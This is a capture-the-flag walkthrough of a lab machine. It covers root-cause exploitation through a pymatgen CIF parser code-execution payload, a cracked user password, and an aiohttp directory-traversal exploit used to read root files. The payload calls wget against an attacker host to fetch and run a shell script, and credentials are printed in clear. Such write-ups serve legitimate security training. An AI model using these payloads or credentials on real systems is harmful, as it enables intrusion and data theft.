Shell as app
We can upload CIF files here
http://10.10.11.38:5000/dashboard
Following this link we can have rce
https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f
example payload
data_5yOhtAoR_audit_creation_date 2018-06-08_audit_creation_method "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
loop__parent_propagation_vector.id_parent_propagation_vector.kxkykzk1 [0 0 0]
_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("wget http://10.10.14.4/shell.sh");0,0,0'
_space_group_magn.number_BNS 62.448_space_group_magn.name_BNS "P n' m a' "
I couldnt get any shells to work so i used wget, then in the second payload I used chmod +x shell.sh and third ./shell.sh

Shell as Rosa
Password found /home/app/app.py
MyS3cretCh3mistry4PP

Password above seems to be nothing. Checking the database file we can see usernames and password hashes.

Rosas hash 63ed86ee9f624c7b14f1d4f43dc251a5 cracks to unicorniosrosados

rosa:unicorniosrosados
Shell as Root
Port 8080 is running a webserver on local host
ssh -L 1234:localhost:8080 rosa@10.10.11.38
Site has nothing interesting at first glance

Looking at the response headers we have aiohttp/3.9.1 which has a path traversal exploit
https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0

The proof of concept shows the static directory, in our case all we have is the assets directory and the exploit works with it.

Testing exploit

grabbing root flag

I was originally following a different POC which didnt have the -path-as-is flag which turns out is required

If we want to get a full shell we can use the POC above to get the root id_rsa key


